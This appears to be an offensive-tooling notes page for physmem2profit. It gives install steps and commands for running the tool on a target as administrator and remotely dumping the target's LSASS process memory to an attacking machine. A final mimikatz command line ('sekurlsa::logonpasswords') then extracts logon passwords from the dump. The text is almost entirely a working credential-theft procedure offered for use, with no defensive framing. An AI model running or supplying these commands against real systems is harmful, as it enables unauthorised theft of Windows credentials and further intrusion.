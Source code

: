 
## Installation
1. Clone the Physmem2profit Git repository:
> git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git
2. For the server running on the target computer: Build physmem2profit/server/Physmem2profit.sln with Visual Studio
3. For the client running on the attacking machine:
> bash physmem2profit/client/install.sh

## [[LSASS dumping]]
1. Run on the target as admin
> physmem2profit.exe [--ip IP] [-p PORT] [--hidden] [--verbose]
2. You can download the signed Winpmem driver [here](https://github.com/Velocidex/WinPmem/raw/master/kernel/binaries/winpmem_x64.sys). This driver needs to be present on the target host.
3. Run on the attacking machine. This command will activate the virtualenv created by install.sh.
> source physmem2profit/client/.env/bin/activate 
4. Run on the attacking machine
> cd physmem2profit/client and python3 physmem2profit --host HOST [--port PORT] [--mode MODE] [--driver DRIVER ] [--instal DRIVER_PATH_ON_TARGET] [--label LABEL_FOR_MEMORY_DUMP]
- physmem2profit.exe needs to be running on the target machine before you run this command.
- This will write the LSASS minidump to output/[label]-[date]-lsass.dmp on the attacking machine.
5. Copy the minidump to a Windows system and run mimikatz
> mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"


```meta
requirements: admin
results: 
category: 
oss: #win
source: https://github.com/FSecureLABS/physmem2profit
description: Used to create a minidump of a target hosts' LSASS process by analysing physical memory remotely
undetected: 
```